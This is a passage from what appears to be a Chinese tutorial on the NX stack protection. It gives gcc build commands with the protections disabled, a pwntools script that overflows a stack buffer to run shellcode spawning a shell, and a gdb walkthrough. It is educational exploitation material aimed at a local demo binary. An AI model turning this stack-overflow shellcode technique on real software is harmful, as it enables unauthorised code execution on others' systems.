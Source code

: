 ```bash
```

编译命令：

```bash
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
gcc -o test1 -z execstack -fno-stack-protector -no-pie -z lazy demo.c
#noexecstack 代表开启 NX，
```

写入 shellcode 的利用脚本：

```bash
from pwn import*
context.arch='amd64'
io = process('./test1')
#io = process('./test2')
stack = int(io.recv(14),16)
shellcode = asm(shellcraft.sh())
gdb.attach(io)
pause()
io.sendline(b'a'*0x18+p64(stack+0x20)+shellcode)

io.interactive()
```

首先看 text1

利用 gdb 调试到我们返回 shellcode 的位置

我们可以看到，程序很轻易的就执行了栈上输入的 shellcode

[![](assets/1706090564-dcc7575884e3526937b620d7e48b0812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123233934-9b94bf2e-ba05-1.png)
